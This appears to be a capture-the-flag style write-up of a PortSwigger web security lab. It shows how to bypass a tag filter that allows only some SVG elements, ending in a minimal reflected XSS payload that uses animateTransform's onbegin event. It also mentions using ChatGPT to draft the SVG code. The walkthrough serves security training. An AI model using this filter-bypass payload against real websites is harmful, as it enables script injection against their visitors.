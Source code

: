 ![Screenshot from 2023-09-05 10-47-25](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c37bccfe-c513-41e2-a3dc-b7f777141b8f)
![Screenshot from 2023-09-05 10-47-36](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/033f699a-3689-4a30-960d-68b79efb326b)

![Screenshot from 2023-09-05 10-47-52](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/3ef28a44-b20a-4818-b43d-afeb103332f6)

There are 4 tags allowed `svg, title, image, animatetransform` then let's write xss payload with this info

![Screenshot from 2023-09-05 10-48-55](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/64192b41-6795-4db8-8413-d2652ae2a11b)

we can write payload with svg and use animateTransform tag Animation event attributes to perform our xss payload

![Screenshot from 2023-09-05 10-59-31](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/e1e96943-4476-4b2f-9f0e-a398651e86a9)

![Screenshot from 2023-09-05 11-00-09](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/580ecb94-c138-42a0-9d3b-35d229b1942f)

Let's make chatGPT help us to write example code

![Screenshot from 2023-09-05 11-03-26](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/11f180b6-da61-4b14-a8bf-eb52fdce9125)

```html
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
  <rect width="100" height="100" fill="blue">
    <animateTransform
      attributeName="transform"
      attributeType="XML"
      type="translate"
      values="0,0;100,100;0,0"
      begin="0s"
      dur="3s"
      repeatCount="indefinite"
      onbegin="alert('Animation started!')"
    />
  </rect>
</svg>
```

let's remove additonal things

```html
<svg>
    <animateTransform onbegin="alert('xss')"/>
</svg>
```

Then let's check this payload

![Screenshot from 2023-09-05 11-05-45](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/546d0f0a-621b-4be8-aa93-3999168727f9) 

> **[Python Script for this lab](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Reflected_XSS_with_some_SVG_markup_allowed.py)**

